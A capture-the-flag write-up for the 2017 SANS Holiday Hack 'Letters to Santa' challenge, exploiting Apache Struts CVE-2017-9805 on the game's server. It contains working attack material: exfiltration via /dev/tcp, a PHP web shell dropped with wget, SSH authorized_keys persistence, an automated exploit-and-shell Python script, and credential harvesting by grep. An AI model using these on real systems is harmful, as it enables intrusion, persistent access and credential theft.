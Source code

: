 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Investigate the Letters to Santa application at
https://l2s.northpolechristmastown.com. What is the topic of The
Great Book page available in the web root of the server? What is
Alabaster Snowball's password?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We know that there is an application on =https://l2s.northpolechristmastown.com= that we need to investigate.
This webpage is publically accessible from the Internet and not appear to require any special measures to
access it. We do not know Alabaster password or username at the start of this challenge nor what type of
web service is running on the host.

The following hints were provided by Sparkle Redberry from completing the level
[[https://2017.holidayhackchallenge.com/game/3e813a9c-cb34-492e-a317-0dd99c8ca2e7][Winconceivable: The Cliffs of Winsanity]]:
  1. We're excited to debut the new Letters to Santa site this year. Alabaster worked hard on that project for over a year. I got to work with the development version of the site early on in the project lifecycle.
  2. Near the end of the development we had to rush a few things to get the new site moved to production. Some development content on the letter page should probably have been removed, but ended up marked as hidden to avoid added change control paperwork.
  3. Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
  4. A simple web shell is to create a PHP file in the web root with ~<?php echo "<pre>" . shell_exec($_GET['e']) . "</pre>"; ?>~. Then, I visit the URL with my commands. For example, =http://server/complexFileName.php?e=ls=.
  5. There are lots of different web shell tools available. [[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985][You can get a simple PHP web shell that is easy to use here]].
  6. That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
  7. Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Here is a useful article]].
  8. Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.

The following SANS Pentest Blog posts were also very helpful for this challenge:
- [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Why You Need the Skills to Tinker with Publicly Released Exploit Code]]
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and CVE-2017-9805 Code: [[https://github.com/chrisjd20/cve-2017-9805.py]]
- [[https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted][A Spot of Tee]]
  bash shell, and bypassing the I/O restriction with tee

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

There are two goals for this challenge. The first is to determine the topic of
the Great Book Page that is sitting on the web root of this server. The second
is to determine what Alabaster's password is.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

According to the second hint there might be development code left in the production code.
If we look at the source of =l2s= the following code pops out.

#+BEGIN_SRC html
<!-- Development version -->
<a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
#+END_SRC

Let's do some recon on the hosts:

#+BEGIN_SRC sh
nmap -sC l2s.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.027s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://l2s.northpolechristmastown.com/
443/tcp  open   https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
#+END_SRC

In addition to the hidden link for dev.northpolechristmastown.com, it is also
present as an alternate name on the certificate of the host. Let's let nmap's
scripts scan that as well.

#+BEGIN_SRC sh
nmap -sC dev.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
Host is up (0.028s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://dev.northpolechristmastown.com/
443/tcp  open   https
| http-title: Toys List
|_Requested resource was /orders.xhtml
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server
#+END_SRC

We can see that dev and l2s are one in the same. Visiting the dev page has a footer
that simply states =Powered By: Apache Struts=. Let's use this to our advantage.
Let's use the tool provided through the SANS Pentest blog,
[[https://github.com/chrisjd20/cve-2017-9805.py][cve-2017-9805.py]]. The dev page
we land on is [[https://dev.northpolechristmastown.com/orders.xhtml]] so we'll use
that to start from.

#+BEGIN_SRC sh
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ls'
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
#+END_SRC

Looks like we need to modify the program to let us see what it's
doing by uncommenting the following line:

#+BEGIN_SRC sh
print request.text
#+END_SRC

Performing the same simple command above results in a lengthy Apache Tomcat
error with no apparent output from our =ls= command. We're dealing with a
blind injection so we'll need to figure out a different way to get the output
of the command. One trick we can pull is redirecting output to a special
pseudo device, ~/dev/tcp/$host/$port~. First we'll need to set up a listener
on our end first.

#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
#+END_SRC

Now we run the exploit again:

#+BEGIN_SRC sh
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/1234"
#+END_SRC

The result on our end is:
#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
bin
boot
dev
etc
home
...
vmlinuz
vmlinuz.old
#+END_SRC

It looks like we've been dropped into the root directory. Let's look for
where the web root is. Normally, the default is /var/www/html on most
linux+apache based hosts. We'll try again with the command =ls -al /var/www/html=.

#+BEGIN_SRC sh
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Jan  6 03:00 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
#+END_SRC

Oh look. There's [[https://l2s.northpolechristmastown.com/GreatBookPage2.pdf][GreatBookPage2.pdf]]. We can download it and find the answer to the first question.

Let's assume for a minute that we didn't know where the web root
was. Since page 1 of our Great Book was a PDF, it's a pretty safe bet
that page 2 is also a PDF. It takes about half of a second to search the system for all PDFs using =find=:

#+BEGIN_SRC sh
$ find / -name *.pdf
/var/www/html/GreatBookPage2.pdf
#+END_SRC

Now on to the second.

It looks like we found our web root. Let's try out the
web shell they suggest in the hints from Josh Wright
[[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php][easy-simple-php-webshell.php]].
We'll output it to a random file in the web root then
we can try to use it to execute commands using a browser.

#+BEGIN_SRC sh
./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php" -u https://dev.northpolechristmastown.com/orders.xhtml
#+END_SRC

Now we can access [[https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php]] and look around. If we do an =ls= in this webshell, it just returns the local directory, =/var/www/html=. Nothing in here suggests that we have the webroot for the dev server, [[https://dev.northpolechristmastown.com]].

Let's run =find= to see if we can find the password in our webshell.

#+BEGIN_SRC sh
find / -xdev -type f -user alabaster_snowball 2>/dev/null | xargs grep password
#+END_SRC

Within the page full of results we see this:

#+BEGIN_SRC sh
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String password = "stream_unhappy_buy_loss";
#+END_SRC

A closer look at =OrderMySql.class= using =cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class= we find:

#+BEGIN_SRC java
final String username = "alabaster_snowball";
final String password = "stream_unhappy_buy_loss";
#+END_SRC

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

*** What is the topic of The Great Book page available in the web root of the server?

Leveraging the Apache Struts vulnerability, we can run =ls= on the common web root of =/var/www/html=, and get the filename of the page, then download it via the web server. Opening it up, we see that the topic is:

#+BEGIN_QUOTE
On the Topic of Flying Animals
#+END_QUOTE

*** What is Alabaster Snowball’s password?

The trick here is just finding the right file, and the password is in cleartext in that file. We used =find= to =grep= all the files for "password".

#+BEGIN_QUOTE
=stream_unhappy_buy_loss=
#+END_QUOTE

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

*** Add an authorized_key

One thing you can do if you don't have the password yet is actually
add an ssh key to alabaster's authorized keys file. This is
problematic since you need to know that the username is actually
=alabaster_snowball= first. Assuming you do, you can run the following
command to add your key to the file.

The command we want to run is the following, taking care not to clobber any existing authorized keys:

#+BEGIN_SRC sh
cd /home/alabaster_snowball
# Make the .ssh directory, if it doesn't exist
mkdir .ssh
# ssh is very picky about permissions, so lock this down:
chmod 700 .ssh
cd .ssh

# Create the authorized_keys file, if it doesn't exist
touch authorized_keys
# ...and lock it down
chmod 600 authorized_keys

# Append our key
echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | tee -a /home/alabaster_snowball/.ssh/authorized_keys
#+END_SRC

For running this via the Struts exploit, we want this all as a
one-liner. Let's break this up into two parts: first, we'll create the
necessary directory and file, and ensure the permissions are correct,
then we'll add our key:

#+BEGIN_SRC sh
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'cd /home/alabaster_snowball; mkdir .ssh; chmod 700 .ssh; cd .ssh; touch authorized_keys; chmod 600 authorized_keys'
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | tee -a /home/alabaster_snowball/.ssh/authorized_keys'
#+END_SRC

Then you can ssh using your private key identity file.

#+BEGIN_SRC sh
holiday@hack:~$ ssh -i /home/holiday/.ssh/sans_2017 alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s:/tmp/asnow.xq1pCkwT7LUy3iLl0AaBCc7D$ grep -A1 -R / -e alabaster_snowball
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

Once in you are in a restricted shell but you can try to grep for alabaster's password but a regular grep against the entire system will take about 1 minute then you have to parse through the results.

*** Automate the webshell

We can automate dropping a webshell and creating a mini shell to query it. Assuming we have [[https://github.com/chrisjd20/cve-2017-9805.py]] in the same directory we can create a script to automate exploitation and give us a prompt to execute commands.

#+BEGIN_SRC python
#!/usr/bin/env python
from __future__ import print_function

import base64
import requests
import sys

from cve_2017_9805 import main as struts_exploit

VULNERABLE_ENDPOINT = "https://dev.northpolechristmastown.com/orders.xhtml"
BASE_URL = "https://l2s.northpolechristmastown.com/"
WEBSHELL = "4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.php"
WEBSHELL_PAYLOAD = b'<?php system($_GET[cmd]); ?>\n'
WEBSHELL_PAYLOAD_ENCODED = base64.encodestring(WEBSHELL_PAYLOAD).strip()

## Emulate this command:
## /cve-2017-9805.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo= | 
##    base64 -d > /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php' -u https://dev.northpolechristmastown.com/orders.xhtml
EXPLOIT_COMMAND = "echo {} | base64 -d > /var/www/html/{}".format(WEBSHELL_PAYLOAD_ENCODED, WEBSHELL)

def run_command(command):
    url = BASE_URL + WEBSHELL
    request = requests.get(url, params={"cmd":command})
    if request.status_code == 404:
        return None
    return request.text

#Main function
def setup():
    # See if we can run the id command, and if so, we are good to go...
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The webshell did not exist, re-exploiting.....\n")
    struts_exploit(VULNERABLE_ENDPOINT, EXPLOIT_COMMAND)
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The struts exploit/webshell failed :-(\n")
    sys.exit(1)

def interactive():
    setup()
    while True:
        try:
            cmd = raw_input("www-data@l2s:$ ")
        except EOFError:
            print()
            return
        print(run_command(cmd))

def one_shot(command):
    setup()
    print(run_command(command))

if __name__ == "__main__":
    if sys.argv[1:]:
        one_shot(' '.join(sys.argv[1:]))
    else:
        interactive()
#+END_SRC

First we need to either rename =cve-2017-9805.py= to =cve_2017_9805.py= or create a symlink so it can be properly imported into our script. Then we can easily execute commands on l2s.

#+BEGIN_SRC sh
holiday@hack:~$ ./l2s.py id
The webshell did not exist, re-exploiting.....
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
uid=33(www-data) gid=33(www-data) groups=33(www-data)

holiday@hack:~$ ./l2s.py uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux

holiday@hack:~$ ./l2s.py
www-data@l2s:$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@l2s:$ uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux
#+END_SRC

*** Search even faster with ripgrep

Ripgrep is a super fast grep replacement written in rust. It does a better job at filtering binary files, so we can run this command that finishes in about a second:

The following steps create a folder for ripgrep and executes the search.

#+BEGIN_SRC sh
www-data@l2s:$ mkdir /tmp/.rg
www-data@l2s:$ wget -q -O - https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz | tar xzf - -C /tmp/.rg/
www-data@l2s:$ find / -type f -xdev -user alabaster_snowball 2>/dev/null | xargs /tmp/.rg/ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

A common pitfall is the blind injection aspect of the Apache Struts exploit. There were a couple of ways around this:

  * Using the ~/dev/tcp~ trick like we did,
  * Redirect the output to =/var/www/html/$filename=, and then accessing that via the web interface,
  * Piping the output to =netcat=.

Finding the password was also tricky. Luckily, there weren't many
files on this system, so we could just =grep= everything, but another
option would've been to look for files that had been modified around
the time the system was installed.

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

Initially the host has a couple of noticeable holes.

  * Apache server running as alabaster (eventually changed to www-data user)
  * Easy bypass of rbash by adding the '-t' flag and executing bash on ssh login (eventually rbash was forced through sshd_config)

The server itself housed two virtual web hosts, the Letter's to Santa application which ran PHP in nginx and the Development site which was run by Apache struts on a high port being redirected by nginx.

** Moving Foward

Now that we have a script to automate access to l2s let's run nmap to scan the internal network.

#+BEGIN_SRC sh
holiday@hack:~$ ./l2s.py "nmap -sC 10.142.0.*"

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-09 20:51 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00018s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http
|_http-title: Toys List

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 a2:c4:67:fe:a2:d9:df:47:02:55:35:1a:f4:1b:b6:02 (RSA)
|_  256 9e:d4:01:d1:71:be:95:90:68:6e:ee:87:28:42:49:8e (ECDSA)
25/tcp   open  smtp
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap
|_imap-capabilities: more AUTH=PLAIN capabilities have OK Pre-login AUTH=LOGINA0001 ENABLE listed SASL-IR IDLE post-login LITERAL+ IMAP4rev1 LOGIN-REFERRALS ID
2525/tcp open  ms-v-worlds
3000/tcp open  ppp

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00014s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey:
|   2048 73:de:22:15:7b:53:13:85:a7:a5:8f:10:3a:5d:3b:3f (RSA)
|_  256 f5:d7:f3:5d:dc:7c:73:10:cc:f7:a4:c7:f0:d9:61:0c (ECDSA)
80/tcp   open     http
| http-robots.txt: 1 disallowed entry
|_/dev
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  filtered ldap
8080/tcp open     http-proxy
| http-robots.txt: 1 disallowed entry
|_/dev
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00021s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-smb-server
| Not valid before: 2017-11-06T13:46:55
|_Not valid after:  2018-05-08T13:46:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Host script results:
|_nbstat: NetBIOS name: HHC17-SMB-SERVE, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:08 (unknown)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Toys List
4444/tcp open  krb524

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00078s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Not valid before: 2017-11-23T20:53:55
|_Not valid after:  2018-05-25T20:53:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Post-scan script results:
| clock-skew:
|   0s:
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Nmap done: 256 IP addresses (7 hosts up) scanned in 14.86 seconds
#+END_SRC
